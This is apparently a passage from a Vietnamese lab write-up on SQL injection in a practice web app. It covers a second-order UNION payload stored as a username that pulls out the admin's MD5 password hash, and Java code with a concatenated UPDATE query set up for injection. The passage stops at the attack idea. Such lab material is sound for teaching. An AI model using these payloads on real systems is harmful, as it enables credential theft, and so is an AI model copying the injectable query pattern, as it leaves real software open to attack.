 ![image](https://hackmd.io/_uploads/SJ06Hl8Pgx.png)

Tiến hành tạo tài khoản là admin/admin123![image](https://hackmd.io/_uploads/Bk1lUeUDlg.png)

Có vẻ như tên admin đã tồn tại trong bảng.
Bước 1: Đăng ký tài khoản với payload SQLi
username là `' UNION SELECT password FROM users --  
'
` 
password là cái gì cũng được.

![image](https://hackmd.io/_uploads/BkNPKgLPlx.png)

![image](https://hackmd.io/_uploads/BJ7dKlIDle.png)

Độ dài: 43 ký tự vừa VARCHAR(50)
Sẽ trả về password của user đầu tiên trong bảng users (thường là admin)

Bước 2: Thực hiện view profile mình vừa mới tạo, lúc này câu query sẽ trở thành `SELECT email FROM users WHERE username='' UNION SELECT password FROM users -- '
` Kết quả: rs.getString(1) = password dòng đầu tiên trong bảng users

![image](https://hackmd.io/_uploads/SJULceIDlg.png)

Thành công lôi mật khẩu dạng md5 của admin ra.

![image](https://hackmd.io/_uploads/H1xqcx8wgg.png)

#### Level 8
  <summary>SQL Injection Level 8</summary>

  ![image](https://hackmd.io/_uploads/Hyho9l8Dlx.png)
  
Lv 8 nó có tên là UPDATE Injection vì ở lv này mình sẽ demo sqli bằng cách sử dụng hàm UPDATE để thay đổi password của admin.
    
```sql
 public boolean updateEmail(String email, String username) throws Exception {
        String query = "UPDATE users SET email='" + email + "' WHERE username='" + username + "'";
        System.out.println("DEBUG UpdateEmail: " + query);
        try (Connection conn = DBConnection.getConnection();
             Statement stmt = conn.createStatement()) {
            return stmt.executeUpdate(query) > 0;
        }
    }
```
Đây là SQLi điểm yếu chính, vì:
- Cả email và username không được lọc
- Query được tạo bằng nối chuỗi trực tiếp
Ý tưởng tấn công
Inject qua username, để câu lệnh UPDATE trở thành `UPDATE users SET email='[payload]' WHERE username='[injected_username]'
`

